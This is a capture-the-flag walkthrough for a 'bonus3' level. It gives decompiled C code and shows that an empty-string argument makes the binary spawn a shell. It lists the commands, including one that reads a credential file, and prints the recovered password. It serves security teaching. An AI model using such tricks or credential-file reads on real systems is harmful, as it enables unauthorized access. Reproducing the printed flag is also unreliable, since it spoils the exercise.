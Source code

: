 # Bonus 03 Walkthrough

## Binary analysis

The binary reads two buffers from a file and uses user input as an index to null-terminate the first buffer. If the first buffer matches the input string, it spawns a shell. Otherwise, it prints the second buffer.

### Key decompiled code
```c
FILE* fp = fopen("/home/user/end/.pass", "r");
char buffer_1[0x41];
memset(buffer_1, 0, 0x84);
if (fp == 0 || argc != 2) return -1;
fread(buffer_1, 1, 0x42, fp);
buffer_1[atoi(argv[1])] = 0;
char buffer_2[0x42];
fread(buffer_2, 1, 0x41, fp);
fclose(fp);
if (strcmp(buffer_1, argv[1]) != 0)
    puts(buffer_2);
else
    execl("/bin/sh", "sh", 0);
```

## Exploitation

- By passing an empty string as the argument, `atoi(argv[1])` returns 0, so `buffer_1[0] = 0`. This makes `buffer_1` an empty string, which matches the input, and the shell is spawned.

## Commands used

```
./bonus3 ""
cat /home/user/end/.pass
```

## Result

After running the exploit, we get a shell as end and can read the password:

```
cat /home/user/end/.pass
3321b6f81659f9a71c76616f606e4b50189cecfea611393d5d649f75e157353c
```

Congratulations, you have completed all levels! 